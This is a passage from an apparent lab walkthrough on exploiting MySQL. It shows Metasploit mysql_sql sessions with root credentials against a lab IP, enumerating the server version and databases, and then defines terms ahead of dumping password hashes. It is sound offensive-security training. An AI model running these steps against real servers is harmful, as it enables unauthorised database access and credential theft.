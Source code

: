 ```bash
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as
```
It's **PASSWORD/RHOST/USERNAME**.

Run the exploit. By default it will test with the "select module()" command, what result does this give you?
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.39.195
RHOSTS => 10.10.39.195
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > exploit 
[*] Running module against 10.10.39.195

[*] 10.10.39.195:3306 - Sending statement: 'select version()'...
[*] 10.10.39.195:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```
It's **5.7.29-0ubuntu0.18.04.1**.

Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL SHOW DATABASES
SQL => SHOW DATABASES
msf6 auxiliary(admin/mysql/mysql_sql) > exploit 
[*] Running module against 10.10.39.195

[*] 10.10.39.195:3306 - Sending statement: 'SHOW DATABASES'...
[*] 10.10.39.195:3306 -  | information_schema |
[*] 10.10.39.195:3306 -  | mysql |
[*] 10.10.39.195:3306 -  | performance_schema |
[*] 10.10.39.195:3306 -  | sys |
[*] Auxiliary module execution completed
```
**4** databases.



## Exploiting MySQL
#### Recap
Let's take a sanity check before moving on to try and exploit the database fully, and gain more sensitive information than just database names. We know:
1. MySQL server credentials
1. The version of MySQL running
1. The number of Databases, and their names.

#### Key Terminology
In order to understand the exploits we're going to use next- we need to understand a few key terms.
- **Schema**: In MySQL, physically, a schema is synonymous with a database. You can substitute the keyword "SCHEMA" instead of DATABASE in MySQL SQL syntax, for example using CREATE SCHEMA instead of CREATE DATABASE. It's important to understand this relationship because some other database products draw a distinction. For example, in the Oracle Database product, a schema represents only a part of a database: the tables and other objects owned by a single user.
- **Hashes**: Hashes are, very simply, the product of a cryptographic algorithm to turn a variable length input into a fixed length output. In MySQL hashes can be used in different ways, for instance to index data into a hash table. Each hash has a unique ID that serves as a pointer to the original data. This creates an index that is significantly smaller than the original data, allowing the values to be searched and accessed more efficiently. However, the data we're going to be extracting are password hashes which are simply a way of storing passwords not in plaintext format.
